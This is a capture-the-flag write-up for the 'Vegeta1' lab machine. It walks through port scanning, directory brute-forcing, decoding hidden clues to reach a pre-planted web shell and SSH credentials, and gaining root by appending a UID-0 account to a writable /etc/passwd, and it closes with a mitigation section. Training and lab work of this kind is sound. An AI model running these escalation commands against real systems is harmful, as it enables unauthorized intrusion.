





<!-- writeup-meta
title: Vegeta1
platform: Proving Grounds Play
os: Linux
difficulty: Easy
ip: 192.168.131.73
date: 2026-10-16
tags:
  - writeup
  - linux
  - encoding
  - privesc
-->
# Vegeta1

## 1. Recon

### 1.1 Nmap

```bash
sudo nmap -A -sS -p- 192.168.131.73
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

**Open ports / services:**

|Port|Service|Version|Notes|
|---|---|---|---|
|22|SSH|OpenSSH 7.9p1|No creds yet — park it|
|80|HTTP|Apache 2.4.38|Only real attack surface; start here|

> **Reasoning:** Only two ports, and SSH is useless without credentials. The whole box has to open from the web service, so all enumeration effort goes to port 80 first — the goal is to find creds the website is hiding, then reuse them on SSH.

### 1.2 Web enumeration

Directory brute-force:

```bash
gobuster dir --url http://192.168.131.73/ \
  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt \
  -x txt,php,html
```

```
index.html    (Status: 200) [Size: 119]
img           (Status: 301) [--> /img/]
login.php     (Status: 200) [Size: 0]
image         (Status: 301) [--> /image/]
admin         (Status: 301) [--> /admin/]
manual        (Status: 301) [--> /manual/]
robots.txt    (Status: 200) [Size: 11]
```

`robots.txt` disallows a custom path:

```bash
curl -s http://192.168.131.73/robots.txt
# *
# /find_me
```

Browsing `/find_me/` revealed `find_me.html`.



---

## 2. Foothold

The foothold is a chain of hidden clues, each pointing to the next. The lesson of this box is **always view source and read to the very bottom of a page.**

### 2.1 Clue 1 — hidden base64 in page source

`find_me.html` rendered just the text `Vegeta-1.0`. But the source view showed a very high line count — content pushed far below the visible area. At the bottom of the source sat a long base64 blob.



### 2.2 Decoding — base64 → QR → password

Fed the blob into CyberChef. The decode chain was multi-layered:

```
From Base64  →  From Base64  →  Render Image  →  Parse QR Code
```



The QR decoded to a password:

```
Password : [REDACTED]
```

> At this point I had a password but no username. `vegeta` / `vegeta1` + this password over SSH both failed — so the username lives somewhere else, and more enumeration was needed.

### 2.3 Clue 2 — the b374k web shell

Searching the string led to the [b374k PHP web shell](https://github.com/b374k/b374k). b374k is a single-file PHP shell that's normally _uploaded_ to a target — but there was no upload form anywhere on the app. On a hunch I requested the file directly at its default name:

```
http://192.168.131.73/b374k.php
```

It was there, and `[REDACTED]` was the password to its login.



> **Takeaway:** the recovered password wasn't for SSH — it unlocked a web shell that had been pre-planted on the box. Guessing the tool's default filename (`b374k.php`) was the key move.

### 2.4 Clue 3 — Morse audio under /bulma

Inside the b374k interface, an HTML comment pointed to another path:

```html
<!-- /bulma -->
```

`/bulma` was an open directory listing containing an audio file, `hahahaha.wav`.



Downloaded and listened to it — it was **Morse code**. Rather than decode by ear, I used an [audio Morse decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html), which produced:

```
USER : TRUNKS   PASSWORD : [REDACTED]
```

### 2.5 SSH access

Finally a full username + password pair:

```bash
ssh trunks@192.168.131.73
```

```
trunks@lab-pg-10-debian10-vegeta-244-081:~$ id
uid=1000(trunks) gid=1000(trunks) groups=1000(trunks)
```

**Initial access as:** `trunks`

**local.txt:**

```
[REDACTED]
```

---

## 3. Privilege Escalation

> **Vector:** writable `/etc/passwd` + a ready-made root-UID entry disclosed in `.bash_history`.

### 3.1 Enumeration — the home directory

```bash
trunks@lab-pg-10-debian10-vegeta-244-081:~$ ls -la
```

An unusually large `.bash_history` (382 bytes of real content) stood out. Reading it revealed the intended privesc path, left behind as shell history:

```bash
trunks@lab-pg-10-debian10-vegeta-244-081:~$ cat .bash_history
perl -le 'print crypt("[REDACTED]","addedsalt")'
echo "Tom:[REDACTED]:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
su Tom
...
su root
```

The history shows a previous user:

1. Generated a DES password hash with `crypt()` (password `[REDACTED]`, salt `ad`).
2. Appended a new user **Tom** to `/etc/passwd` with **UID 0 / GID 0** — i.e. a root-equivalent account — using that hash.
3. `su`'d to Tom to gain root.

### 3.2 Exploitation

`su Tom` failed first because the Tom entry no longer existed in `/etc/passwd`. The key question: can `trunks` write to `/etc/passwd`? On this box, yes. So I re-ran the exact `echo` from history to re-create the root-UID user:

```bash
echo "Tom:[REDACTED]:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
su Tom
# Password: [REDACTED]
```

Because the entry has `0:0`, authenticating as Tom drops straight into a root shell:

```
root@lab-pg-10-debian10-vegeta-244-081:/home/trunks#
```

> **Why it works:** the second field is the DES hash of `[REDACTED]`; the third/fourth fields (`0:0`) make Tom UID 0. Any user who can append to `/etc/passwd` can mint themselves a root account this way. The writable `/etc/passwd` is the actual misconfiguration — the history just handed over the password.

### 3.3 Root

```bash
root@lab-pg-10-debian10-vegeta-244-081:~# id
uid=0(root) gid=0(root) groups=0(root)
```

**Escalated to:** `root`

**proof.txt:**

```
[REDACTED]
```

---

## 4. Loot

```
local.txt (trunks): [REDACTED]
proof.txt (root):   [REDACTED]
```

- Web-shell creds: `[REDACTED]` (b374k panel)
- SSH creds: `trunks` : `[REDACTED]`
- Root path creds: Tom : `[REDACTED]` (hash `[REDACTED]`)

---

## 5. Lessons Learned

- **View source, scroll to the bottom.** The whole foothold started with content hidden far below the fold in page source. A page that "looks empty" often isn't.
- **Follow every breadcrumb, decode every layer.** base64 → base64 → QR → Morse is a lot of hops, but each clue explicitly pointed at the next (`robots.txt` → `/find_me` → QR → b374k → `<!-- /bulma -->` → Morse). Trust the trail.
- **Guess default filenames.** With no upload form, requesting `b374k.php` directly was the unlock. Known tools have known default names — worth a direct request.
- **`.bash_history` is gold.** It handed over the exact privesc command and password. Always read history files on a new shell.
- **Writable `/etc/passwd` = instant root.** Promote to notes: if `trunks` can append to `/etc/passwd`, mint a UID-0 user. → privesc-linux
- **Where I'd be faster next time:** check `robots.txt` and view-source _before_ a long gobuster run — the first real clue was in a 11-byte robots file.

---

## 6. Mitigation

- **Hidden credentials in web content:** never rely on obscurity (base64 blobs, QR, audio) to hide secrets — they're trivially recovered. Don't embed credentials in client-delivered files at all.
- **Pre-planted web shell (`b374k.php`):** should never exist on a server; indicates full prior compromise. Remove, and restrict write access to web roots.
- **Writable `/etc/passwd`:** must be `root:root 644`. A non-root user with write access to it is a direct root escalation. Audit file permissions on sensitive system files.
- **Secrets in `.bash_history`:** avoid typing credentials on the command line; clear history for sensitive operations.

---

## References

- b374k PHP web shell — https://github.com/b374k/b374k
- Audio Morse decoder — https://morsecode.world/international/decoder/audio-decoder-adaptive.html
- CyberChef — https://gchq.github.io/CyberChef/
- `/etc/passwd` privesc — https://gtfobins.github.io (and HackTricks: writable /etc/passwd)